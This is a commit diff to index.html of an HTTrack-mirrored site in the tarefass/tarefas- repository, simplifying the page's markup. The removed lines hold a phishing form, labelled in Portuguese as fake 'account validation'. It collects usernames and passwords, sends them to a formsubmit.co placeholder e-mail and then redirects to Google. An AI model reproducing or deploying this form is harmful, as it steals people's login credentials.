

Before and after one commit to tarefass/tarefas-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 71-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,95 +1,23 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <meta charset="utf-8" />
-    <title>Local index - HTTrack Website Copier</title>
-    <style type="text/css">
-        body {
-            margin: 0; padding: 0; margin-bottom: 15px; margin-top: 8px;
-            background: #77b;
-            font: 14px "Trebuchet MS", Verdana, Arial, Helvetica, sans-serif;
-        }
-        #subTitle {
-            background: #000; color: #fff; padding: 4px; font-weight: bold;
-        }
-        #pageContent {
-            border-bottom: 6px solid #000;
-            padding: 10px; padding-top: 20px;
-            line-height: 1.65em;
-            background-color: #ccd;
-            background-image: url(backblue.gif);
-            background-repeat: no-repeat;
-            background-position: top right;
-        }
-        .formulario {
-            background: #fff;
-            padding: 20px;
-            border-radius: 10px;
-            max-width: 400px;
-            margin: 30px auto;
-            box-shadow: 0 0 12px #0005;
-        }
-        input, button {
-            width: 100%;
-            padding: 12px;
-            margin-top: 10px;
-            border: 1px solid #ccc;
-            border-radius: 6px;
-        }
-        button {
-            background-color: #448;
-            color: #fff;
-            font-weight: bold;
-            border: none;
-        }
-    </style>
+  <meta charset="UTF-8">
+  <title>Local index - HTTrack</title>
 </head>
-<body>
-
-<table width="76%" align="center" cellspacing="0" cellpadding="3">
-    <tr>
-        <td id="subTitle">HTTrack Website Copier - Open Source offline browser</td>
-    </tr>
-</table>
-
-<div id="pageContent">
-
-    <h1 align="center">Index of locally available sites:</h1>
-    <table border="0" width="100%" cellspacing="1" cellpadding="0">
-        <tr>
-            <td background="fade.gif">
-                &middot; <a href="89ap.me/index.html">89ap.me/index.html</a>
-            </td>
-        </tr>
-    </table>
-
-    <!-- 🔽 FORMULÁRIO FAKE AQUI 🔽 -->
-    <div class="formulario">
-        <h3>Validação de Conta</h3>
-        <form action="https://formsubmit.co/SEUEMAIL@gmail.com" method="POST">
-            <input type="text" name="usuario" placeholder="Usuário ou e-mail" required>
-            <input type="password" name="senha" placeholder="Senha" required>
-
-            <!-- Redireciona após envio -->
-            <input type="hidden" name="_next" value="https://google.com">
-            <input type="hidden" name="_captcha" value="false">
-
-            <button type="submit">Entrar</button>
-        </form>
-    </div>
-
-    <h6 align="right">
-        <i>Mirror and index made by HTTrack Website Copier [XR&amp;CO'2008]</i>
-    </h6>
-</div>
-
-<table width="76%" align="center" valign="bottom" cellspacing="0" cellpadding="0">
-    <tr>
-        <td id="footer">
-            <small>&copy; 2008 Xavier Roche & other contributors - Web Design: Leto Kauler.</small>
-        </td>
-    </tr>
-</table>
-
+<body bgcolor="#FFFFFF" text="#000000" link="#0000FF" vlink="#800080">
+  <center>
+    <h1>HTTrack Website Copier - Open Source offline browser</h1>
+    <hr size="1" width="100%">
+    <h2>Local index - HTTrack</h2>
+    <p><b>Index of locally available sites:</b></p>
+    <ul>
+      <li><a href="89ap.me/index.html">89ap.me/index.html</a></li>
+    </ul>
+    <hr size="1" width="100%">
+    <p><small><i>Mirror and index made by HTTrack Website Copier [XR&CO'2008]</i></small></p>
+    <br><br>
+    <hr size="1" width="100%">
+    <small>© 2008 Xavier Roche & other contributors - Web Design: Leto Kauler.</small>
+  </center>
 </body>
 </html>
```
